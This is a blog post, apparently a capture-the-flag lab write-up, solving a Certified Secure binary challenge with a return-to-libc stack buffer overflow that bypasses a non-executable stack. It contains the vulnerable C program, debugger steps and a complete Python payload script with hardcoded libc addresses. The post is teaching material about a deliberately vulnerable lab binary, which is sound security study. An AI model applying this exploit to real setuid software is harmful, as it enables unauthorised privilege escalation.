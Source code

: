 ![Logo](/assets/images/belts-red.png)


In this post we'll continue with the first level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
More buffer overflows on the horizon, but now a new protection mechanism is introduced: the non-executable (**NX**) bit. 
The method we'll need to use here is called is called **ret2libc** (return to libc) and allows us go around the fact that the stack is not executable.

In the previous levels we exploited similar stack-based buffer overflows by overwriting past the buffer limits, 
until we reached the saved return address, where we wrote an address we controlled. 
We placed the shellcode either in the buffer itself or in environment variables, which both ended up on the stack.
Now because the stack is NOT executable, the program would just crash. So we need a way to get past this. 
One known trick is to return insted to the function **system()** from the standard _libc_ library, which accepts an argument to execute.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)

If you want to know more about the techniques to bypass the NX bit, make usre to check the following great resources:
* [Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
* [Bypassing NX bit using chained return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-chained-return-to-libc/)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE                       
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level1

```

There is no stack canary but the stack is **not** executable. What about the state of ASLR on the system? Good news this time: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:

```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>

void hello(int count) {
        char buf[12];

        read(0, buf, count);                            [1]
        printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <count>\n", argv[0]);
                return -1;
        }

        hello(atoi(argv[1]));
        return 0;
}
```

It's very easy to understand how the program works and the buffer overflow is obvious. The call to **read** function in **[1]** accepts the number of bytes to be read from the user, without any validation. Input is written into the **buf** buffer which is only 12 bytes. Simple!

The second issue is of course the absence of a stack cookie which, in this case, would have caused the program to crash, preventing the exploitation.

The third issue, which is a general one, is that the application has the **setuid** flag set and it executes actions based on user input (which could be malicious) with elevated privileges. A better design would be to drop the privileges before getting input from an untrusted source. There are ways around this as well, but it would raise the bar a little for the attackers.

## 2 - Exploit

The idea is to redirect the execution flow to the address of the **system** function and somehow give it a meaningful parameter to execute. Let's go step by step.

### Controlling the execution flow
Although we know that **buf** is 12 bytes in size, we need to see the stack layout of the function **hello** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![hello stack](/assets/images/bm6-1.png)

So we need 20 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*24 + "BBBB"' > input
$ gdb -q ./level1    
```

We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm6-2.png)

### Final payload

After we gain control of the EIP, we want to return to the **system** function as discussed. I chose to execute the **/home/level2/victory** binary, but we could as well spawn a new shell. So the payload will look like this:

```
| PADDING (24 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

If it's not clear why, go back to the articles referened in the beginning. The last parameter is important. We need to place there the argument to the **system** call. According to its [man page](http://man7.org/linux/man-pages/man3/system.3.html) this should be the address of a string in memory representing the command to execute. 

Since there is no ASLR, we can use the same trick as before and place the command to be executed in an environment variable:

```bash
$ export EGG="/home/level2/victory"
```
The complete script to generate the payload looks like this:

```python
import struct
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffdef9-6      # Address of environment variable (/home/level2/victory)

payload = "A" * 24 + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ /levels/level1 40 < /tmp/input
Hello AAAAAAAAAAAAAAAAAAAAAAAAp^�P�����
                                       !
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __    
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
              
Subject: Victory!
             
Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery lieutenant)
   * the exploit
   
You can now start with level2. If you want, you can log in
as level2 with password    [REDACTED]
```

That's it for now! In the [next post](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html) we'll discuss another class of vulnerabilities involving a more subtle error which is usually more difficult to spot - _integer signess errors_.

